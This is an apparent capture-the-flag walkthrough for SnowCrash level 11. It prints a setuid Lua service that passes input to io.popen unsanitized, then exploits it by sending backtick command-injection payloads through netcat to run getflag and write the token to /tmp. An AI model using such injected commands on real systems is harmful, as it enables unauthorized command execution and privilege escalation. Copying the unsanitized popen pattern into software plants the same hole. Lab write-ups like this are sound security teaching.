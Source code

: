 # SnowCrash Level11 Guide
This guide will walk you through the process of finding the password for the `flag11` user.

## Procedure:

1. **Examine your environment**
   
`id` : Shows user and group identities that you have. 
```bash
uid=2011(level11) gid=2011(level11) groups=2011(level11),100(users)
```
`pwd` : Displays the current directory you are in.
```bash
/home/user/level11
```
`ls -la` : Lists files and their permissions in the current directory.
```bash
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```
We have a lua script.

2. **Analyse level11.lua**

We don't have lua installed on the VM, so we can't execute it directly.
We can read the content of the file.
```bash
cat level11.lua
```
Returns
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```
This script has two interesting elements:
- It listens on port 5151.
- It hashes the input and compares it to a hardcoded hash.

3. **Connect to the server**

We can connect to the server using `nc`.
```bash
nc 127.0.0.1 5151
```
Returns
```bash
Password:
```
We try to input the hardcoded hash found in the lua script.
```bash
Password: f05d1d066fb246efe0c6f7d095f909a7a0cf34a0
```
Returns
```bash
Erf nope..
```
The hardcoded hash is not the password.

4. **Try to find the password**

If we look at the hash function, we see that is uses io.popen to execute commands.
```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")
```
`pass` is the input we provide.
`sha1sum` is a command that calculates the SHA1 hash of the input.
`io.popen` execute `echo` to provide the input to `sha1sum`.
So, like in previous levels, we can use this to execute commands.

We provide `getflag` command as input.
```bash
nc 127.0.0.1 5151
Password: `getflag`
```
Returns
```bash
Erf nope..
```
If we look at the lua script, we see this `print`.
```lua
print("trying " .. l)
```
But we don't see this print. So we can assume that the command is executed but the output is not displayed.

We can try to redirect the output to a file.
```bash
nc 127.0.0.1 5151
Password: `getflag > /tmp/flag`
```
Returns
```bash
Erf nope..
```
We can check the content of the file.
```bash
cat /tmp/flag
```
Returns
```bash
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s   
```

Congratulations! We have succeeded in obtaining the token!
We now access level 12.
```bash
su level12
```
